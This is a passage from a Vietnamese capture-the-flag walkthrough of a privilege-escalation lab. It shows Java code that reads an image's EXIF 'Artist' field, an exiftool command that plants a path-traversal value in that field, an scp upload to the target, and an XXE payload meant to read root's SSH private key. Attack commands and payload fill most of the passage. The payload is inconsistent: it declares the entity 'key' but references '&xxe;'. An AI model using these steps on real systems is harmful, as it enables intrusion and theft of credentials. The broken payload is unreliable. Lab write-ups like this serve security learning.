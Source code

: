 *App.java*:

```python
...
    public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
                {
                    return tag.getDescription();
                }
            }
        }
...
```

Trong file này tôi nhận ra đoạn code này được dùng để phân tích file ảnh bằng phương thức metadata và đọc trường "Artist" để in ra xml path `"/credits/" + artist + "_creds.xml"`, vậy nên tôi sẽ thay đổi trường "Artist" trong file ảnh bất kỳ thành địa chỉ nơi mà tôi sẽ đặt file xml. 

Và để không lặp lại sai lầm như phía trên là thực thi trên thư mục không có quyền Write thì tôi sẽ trỏ xml vào thư mục của user *woodenk*

Đầu tiên tải 1 chiếc ảnh về và thay đổi trường "Artist" của nó

```python
┌──(neo㉿kali)-[~]
└─$ exiftool -Artist="../home/woodenk/privesc" user.jpg
    1 image files updated
                                          
┌──(neo㉿kali)-[~]
└─$ scp user.jpg woodenk@10.10.11.170:.
woodenk@10.10.11.170's password: 
user.jpg                                                   100%   13KB 185.9KB/s   00:00  
```

Sau đó tôi tạo 1 file xml sử dụng [XML Entity Expansion in Java](https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_java.html#vulnerable-example-1) để đọc ssh private key của user *root*. Và như ở trên tôi để đường dẫn đến `privesc` thì với quy ước đặt tên `"/credits/" + artist + "_creds.xml"` tôi sẽ phải đặt tên file xml này là `privesc_creds.xml`

```python
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>    
  <author>damian</author>
  <image>    
    <uri>/../../../../../../../home/woodenk/user.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>   
  <totalviews>2</totalviews>
</credits>
```
